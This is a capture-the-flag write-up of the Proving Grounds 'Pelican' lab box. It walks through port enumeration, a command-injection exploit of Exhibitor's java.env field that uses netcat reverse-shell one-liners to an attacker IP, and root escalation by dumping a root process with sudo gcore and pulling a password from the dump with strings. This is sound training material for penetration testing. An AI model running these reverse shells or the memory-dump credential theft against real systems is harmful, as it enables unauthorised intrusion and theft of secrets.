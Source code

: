 ```yaml
---
title: Proving Grounds - Pelican
date: 2022-11-14
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Another Proving Grounds box which is rated as Intermediate by community and the platform. Box found in OSCP like box lists. 

### Enumeration

```
└─$ rustscan -a 192.168.209.98 -- -sC -sV | tee nmap
[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.209.98:22
Open 192.168.209.98:139
Open 192.168.209.98:445
Open 192.168.209.98:631
Open 192.168.209.98:2181
Open 192.168.209.98:2222
Open 192.168.209.98:8080
Open 192.168.209.98:8081
cOpen 192.168.209.98:36233
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV" on ip 192.168.209.98
PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        syn-ack nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.209.98:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
36233/tcp open  java-rmi    syn-ack Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-11-14T18:17:05
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-14T13:17:06-05:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41584/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19963/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34972/udp): CLEAN (Timeout)
|   Check 4 (port 24115/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
```

While rustscan was running, I attempted to check webservers from verbose scan output. Opening webserver on port 8081 I was re-directed to http://192.168.209.98:8080/exhibitor/v1/ui/index.html.

![alt text](/assets/img/pelican/1.png)

I wasn't exactly sure what I am looking at, so I decided to click around and search for exploits with Searchsploit.

![alt text](/assets/img/pelican/2.png)

I did find 48654 exploit for Exhibitor version 1.7.1, but decided to check it our anyway and attempted to perform the exploit as described in this section.

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

I have set a listener on port 8080, changed java.env script to:
```
$(/bin/nc -e /bin/sh 192.168.49.209 8080 &)
```

And got a low privileged shell as user Charles. 
```
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.98] 60278
whoami
charles
python3 -c "import pty;pty.spawn('/bin/bash')"
charles@pelican:/opt/zookeeper$ pwd
pwd
/opt/zookeeper

charles@pelican:~$ ls /home/charles
ls /home/charles
local.txt
```

### Privilege escalation

One of the first things I like to check is what user can run as sudo.

```
charles@pelican:/tmp$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

Looks like gcore can be used with sudo rights. This binary can generate a dump of running processes. For that I need to find a process which might be interesting to look at. I used command below and manually reviewed running processes until I found one that looks to be interesting enough.

```
charles@pelican:/tmp$ ps -aux | grep -i root

root       492  0.0  0.0   2276    72 ?        Ss   11:56   0:00 /usr/bin/password-store
```

To generate a dump I used:

```
sudo gcore 492
```

Then I used **strings** to analyse the output.

```
strings core.492
```

As there wasn't much output I found the password quite easily.

![alt text](/assets/img/pelican/3.png)

Changed used to root using **su** and I was able to read the flag.

```
root@pelican:/tmp# cat /root/proof.txt
cat /root/proof.txt
b6a5f2947dd8d0e3******
```

GG. Fun lab.